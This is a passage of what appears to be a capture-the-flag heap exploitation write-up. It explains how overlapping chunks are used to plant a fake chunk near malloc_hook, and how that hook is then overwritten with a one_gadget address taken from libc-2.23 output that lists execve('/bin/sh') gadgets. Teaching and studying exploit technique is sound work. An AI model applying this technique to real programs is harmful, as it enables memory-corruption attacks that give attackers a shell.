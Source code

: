 Now that we have a chunk that is allocated and on top of the free list, we can get ready to add the fake chunk to the free list. To do this we will edit chunk 0, and write the address a little bit before the malloc_hook to it. The reason for this being is that when we allocate this new chunk that starts with this address, it will add that address to the free list (the reason why integer that we picked the one that is in the exploit is because it points to an integer that malloc will think is a free size, so the program doesn't crash):

```
0x10:	1
0x60:	2
0x60:	4
0xf0 & 0x60:	(freed & 0) (these two chunks begin at exactly the same spoit, and have the same ptr) content = fake chunk address
0x30:	3
```
 
 Now we can just allocate chunk 5 again, and due to the previous steps the address of our fake chunk will get added to the free list:
 
```
0x10:	1
0x60:	2
0x60:	4
0xf0 & 0x60:	(5 & 0) (these two chunks begin at exactly the same spoit, and have the same ptr) content = fake chunk address
0x30:	3
``` 

Now that the fake chunk has been added (and is at the top) of the free list, we can just allocate the fake chunk:

```
0x10:	1
0x60:	2
0x60:	4
0xf0 & 0x60:	(5 & 0) (these two chunks begin at exactly the same spoit, and have the same ptr) content = fake chunk address
0x30:	3
0x60:	6	fake chunk for malloc_hook
```

Now that we have a fake chunk, we can write over the malloc_hook. The value we will write over the malloc hook will be a ROP Gadget that due to our setup, we can just call that one address and get a shell. For this we will be using the tool One_Gadget from https://github.com/david942j/one_gadget to One Shot the program. To use this tool, you just need to point it at the libc file you are using (we will be using the gadget at `0x4526a`):

```
one_gadget libc-2.23.so 
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
